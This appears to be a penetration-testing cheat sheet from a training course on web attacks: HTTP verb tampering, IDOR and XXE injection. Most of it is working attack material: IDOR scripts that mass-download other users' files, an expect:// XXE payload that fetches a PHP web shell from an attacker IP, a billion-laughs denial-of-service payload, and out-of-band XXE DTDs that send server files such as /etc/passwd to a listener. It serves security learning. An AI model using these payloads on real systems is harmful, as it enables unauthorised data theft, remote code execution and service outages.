

# Web Attacks

## [HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering)

### [HTTP Request Methods](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Methods)

| Verb    | Description                                                                 |
|---------|-----------------------------------------------------------------------------|
| HEAD    | Identical to a GET request, but its response only contains the headers, without the response body |
| PUT     | Writes the request payload to the specified location                        |
| DELETE  | Deletes the resource at the specified location                              |
| OPTIONS | Shows different options accepted by a web server, like accepted HTTP verbs  |
| PATCH   | Apply partial modifications to the resource at the specified location       |

| Command | Description |
|---------|-------------|
| `-X OPTIONS` | Set HTTP Method with Curl |

### Example Vulnerability

The below code is designed to mitigate SQLi. However, it is only being applied to GET requests

``` php
$pattern = "/^[A-Za-z\s]+$/";

if(preg_match($pattern, $_GET["code"])) {
    $query = "Select * from ports where port_code like '%" . $_REQUEST["code"] . "%'";
    ...SNIP...
}
```

### Explointing

- Trial and error change Verb in intercepted requests in burp.
- `#!bash curl -i -X OPTIONS http://SERVER_IP:PORT/` to see what verbs are accepted.

## [Insecure Direct Object Referencing (IDOR)](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/04-Testing_for_Insecure_Direct_Object_References)

### Identify IDORs

- In URL parameters & APIs (`?uid=1` or `?filename=file_1.pdf`)
- In AJAX Calls (find functions only available to admin users)
``` javascript
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```
- By understanding reference hashing/encoding (`download.php?filename=c81e728d9d4c2f636f067f89cc14862c`)
``` javascript
$.ajax({
    url:"download.php",
    type: "post",
    dataType: "json",
    data: {filename: CryptoJS.MD5('file_1.pdf').toString()},
    success:function(result){
        //
    }
});
```
- By comparing user roles and api calls available to users, user 2 may not have the below api call available but if we know it exists we could attempt to make it whilst logged in as user 2.
``` json
{
  "attributes" : 
    {
      "type" : "salary",
      "url" : "/services/data/salaries/users/1"
    },
  "Id" : "1",
  "Name" : "User1"

}
```
- Predictable file naming patterns
``` html
/documents/Invoice_1_09_2021.pdf
/documents/Report_1_10_2021.pdf
<!-- changing the get parameter uid from 1 to 2 may cause the available files to change to: -->
/documents/Invoice_2_09_2021.pdf
/documents/Report_2_10_2021.pdf
<!-- there may also be filters (uid_filter=1) that can be changed or removed to show other files -->
```

### Mass IDOR Enumeration

If we find the example files from the previous example in the html code:
``` html
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li>
```
We could write the following script to mass download them
``` bash
#!/bin/bash

url="$1" # bash script.sh http://STMIP:STMPO or http://URL to run command and pass the URL

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do # *? matches 0 or more of . (any char)
                wget -q $url/$link # http://SERVER_IP:PORT/
        done
done
```

### Hashed IDOR

The following function takes the IDOR value base64 encodes it and then hashes it.
``` javascript
function downloadContract(uid) {
    $.redirect("/download.php", {
        contract: CryptoJS.MD5(btoa(uid)).toString(),
    }, "POST", "_self");
}
```
In which case we would recreate that before passing the value:
``` bash
echo -n 1 | base64 -w 0 | md5sum
```
and pass the value to mass download files:
``` bash
#!/bin/bash

for i in {1..10}; do
    for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
        curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
    done
done
```

### Insecure APIs


- The above API is making updates (PUT /profile/api.php/profile/1) to Full Name, Email, and About Me.
- It has hidden parameters uid, uuid, and role.
- The role is also present as a cookin (Cookie: role=employee)
- We could try changing to a GET request and changing the endpoint to get other users details
- If we found an admins uuid we could then use that alon with changing the uid and role to make changes/create users that we couldn't as a user role.

| Command | Description |
|---------|-------------|
| `md5sum` | MD5 hash a string |
| `base64` | Base64 encode a string |

## [XML External Entity (XXE) Injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

**Tip:** May have to change GET request to POST request to add XML data

### XML

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<email>
  <date>01-01-2022</date>
  <time>10:00 am UTC</time>
  <sender>john@inlanefreight.com</sender>
  <recipients>
    <to>HR@inlanefreight.com</to>
    <cc>
        <to>billing@inlanefreight.com</to>
        <to>payslips@inlanefreight.com</to>
    </cc>
  </recipients>
  <body>
  Hello,
      Kindly share with me the invoice for the payment made on January 1, 2022.
  Regards,
  John
  </body> 
</email>
```

### XML Document Type Definition (DTD)

Defines an XML documents structure/can be validated against

``` xml
<!DOCTYPE email [
  <!ELEMENT email (date, time, sender, recipients, body)>
  <!ELEMENT recipients (to, cc?)>
  <!ELEMENT cc (to*)>
  <!ELEMENT date (#PCDATA)>
  <!ELEMENT time (#PCDATA)>
  <!ELEMENT sender (#PCDATA)>
  <!ELEMENT to  (#PCDATA)>
  <!ELEMENT body (#PCDATA)>
]>
```

Referenced within the XML document itself

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "email.dtd">
```
or
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email SYSTEM "http://inlanefreight.com/email.dtd">
```
Defining XML variables in DTD
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```
The above defined company variable can be referenced in the XML document like this: `&company;`
Variables can also be referenced externally using the SYSTEM (or PUBLIC) keyword:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "http://localhost/company.txt">
  <!ENTITY signature SYSTEM "file:///var/www/html/signature.txt">
]>
```

### Identification

- Find POST requests that contain XML data that accept user input
    - Even if a web app sends JSON data we can test if it will accept XML by changing the Content-Type header to application/xml
    - Then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm)
- Find which elements are displayed in the response once the request is sent
- Adjust the POST request to contain DTD and see if it gets reflected back

- Now test for LFI/the web app source code

### Exploitation

| Code | Description |
|------|-------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter(for when referenced file is not returned because it's not in XML format) |
| `<!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">` | Download a web shell into the remote server (requires expect module installed on php server) |

**Note:** We replaced all spaces in the above XML code with $IFS, to avoid breaking the XML syntax. Furthermore, many other characters like |, >, and { may break the code, so we should avoid using them.

- Preparing shell for download:
``` bash
echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
sudo python3 -m http.server 80
```
- SSRF style attacks can be performed to enumerate locally open ports/access restricted web pages
- Example DOS attack:
``` xml
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" > <!-- a0 Defined as DOS -->
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;"> <!-- a0 referenced in a1 multiple times -->
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;"> <!-- a1 referenced in a2 and so on to cause servers memory to run out -->
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```


### Advanced Exfiltration with CDATA

- Exfil data wrapped in CDATA tag is considered raw data, thus special characters will not break the XML format.
- XML prevents joining internal and external entities 
- This example exploit treats the internal entities as external entities:
``` xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

<email>&joined;</email> <!-- reference the &joined; entity to print the file content -->
```
``` bash
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd
python3 -m http.server 8000
```

### Error Based XXE Example

- Post request:
``` xml
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- Remote file xxe.dtd:
``` bash
cat > XXE.dtd << EOF
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
EOF
python3 -m http.server 8000
```

### Out-of-band Data Exfiltration

- Post request:
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- Remote file xxe.dtd:
``` bash
cat > xxe.dtd << EOF
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/flag.php">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://PWNIP:4444/?content=%file;'>">
EOF 
python3 -m http.server 8000
```
- Auto base64 decoder
``` bash
cat > index.php << EOF
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
EOF
php -S 0.0.0.0:4444
```

**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize DNS OOB Exfiltration by placing the encoded data as a sub-domain for our URL (e.g. ENCODEDTEXT.our.website.com), and then use a tool like tcpdump to capture any incoming traffic and decode the sub-domain string to get the data.

### Automated OOB Exfiltration

**[XXEinjector](https://github.com/enjoiz/XXEinjector)**

- Save HTTP POST request and add XXEINJECT at the end:
```
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```
- Run XXEinjector tool:
``` bash
git clone https://github.com/enjoiz/XXEinjector.git
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
cat Logs/10.129.201.94/etc/passwd.log
```